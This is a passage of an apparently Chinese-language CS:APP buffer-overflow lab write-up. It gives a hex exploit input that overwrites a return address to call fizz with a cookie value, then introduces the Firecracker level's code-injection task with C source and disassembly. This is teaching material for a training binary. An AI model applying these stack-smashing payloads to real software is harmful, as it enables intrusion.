 通过阅读汇编代码可以知道，0x8(%ebp)是传入的参数的存放地址，即$ebp+8,这里需要将其覆盖为生成的cookie值作为输入，而\$ebp+4是原来正常的返回地址，需要覆盖为fizz的地址`0x8048dc0`。构造输入：

```assembly
// exploit1.txt
31 31 31 31 31 31 31 31 
32 32 32 32 32 32 32 32 
c0 8d 04 08 00 00 00 00 
5a 2f 93 58 00 00 00 00
```

使用工具生成字符串并运行程序，结果如下：

![](csapp-lab1-2-3/image-20221029190954349.png)

### Level 2: Firecracker

> 目标：含有一个 bang 函数，和一个全局变量 global_value，需要注入机器代码，修改 global_value 为 cookies 的值，再调用 bang 函数。具体指令构造方法参加实验说明文档。可通过execstack工具解除栈执行限制。

```c
int global_value = 0;
void bang(int val)
{
    entry_check(2); /* Make sure entered this function properly */
    if (global_value == cookie)
    {
        printf("Bang!: You set global_value to 0x%x\n", global_value);
        validate(2);
    }
    else
        printf("Misfire: global_value = 0x%x\n", global_value);
    exit(0);
}
```

bang 汇编语言的前几行：

```assembly
08048d60 <bang>:
 8048d60:	55                   	push   %ebp
 8048d61:	89 e5                	mov    %esp,%ebp
 8048d63:	83 ec 08             	sub    $0x8,%esp
 8048d66:	c7 04 24 02 00 00 00 	movl   $0x2,(%esp)
 8048d6d:	e8 2e fc ff ff       	call   80489a0 <entry_check>
 8048d72:	a1 dc a1 04 08       	mov    0x804a1dc,%eax	#get global_value
 8048d77:	3b 05 cc a1 04 08    	cmp    0x804a1cc,%eax	#cmp global_value:cookie
 8048d7d:	74 21                	je     8048da0 <bang+0x40>
```
